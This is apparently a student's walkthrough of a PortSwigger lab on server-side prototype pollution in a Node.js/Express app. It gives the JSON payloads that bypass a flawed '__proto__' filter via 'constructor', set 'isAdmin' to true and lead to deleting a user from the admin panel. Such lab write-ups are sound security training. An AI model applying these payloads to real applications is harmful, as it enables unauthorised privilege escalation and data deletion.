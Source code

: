 
# Bypassing flawed input filters for server-side prototype pollution

## This lab is built on Node.js and the Express framework. It is vulnerable to server-side [prototype pollution](https://portswigger.net/web-security/prototype-pollution) because it unsafely merges user-controllable input into a server-side JavaScript object.

To solve the lab:

1. Find a prototype pollution source that you can use to add arbitrary properties to the global `Object.prototype`.
2. Identify a gadget property that you can use to escalate your privileges.
3. Access the admin panel and delete the user `carlos`.

You can log in to your own account with the following credentials: `wiener:peter`

___

step 1

login to account, you will see Billing and Delivery Address click submit
you will get `/my-account/change-address`
send to repeater


![[lab8_proto_foo_bar_first_request.png]]


step 2
use json space

![[lab8_json_space_info.png]]

add a new property to the JSON with the name `__proto__`, containing an object with a `json spaces` property.
```
"__proto__": {
 "json spaces":10
}
```

![[lab8_add_json_space_as_properties.png]]

step 3

Modify the request to try polluting the prototype via the `constructor` property instead
you will notice in response tab `"json space": 10` added in json file
```
"constructor":{
	"__proto__": {
	 "json spaces":10
	}
}
```

![[lab8_add_constructor_with_json_space.png]]


step 4

Modify the request to try polluting the prototype with your own `isAdmin` property:
you will notice in response tab `"isAdmin": true` added in json file
```
"constructor":{
	"__proto__": {
	 "isAdmin":true
	}
}
```

![[lab8_constructor_is_admin_true_properties.png]]

step 5
try to access `/admin` 
you will get admin panel 

![[lab8_admin_page.png]]

step 6

delete carlos account to solve lab

![[portswigger_wsa/P03_advanced_topics/P24_Prototype-pollution/images/lab8_delete_carlos_account.png]]


![[portswigger_wsa/P03_advanced_topics/P24_Prototype-pollution/images/lab8_lab_solved.png]]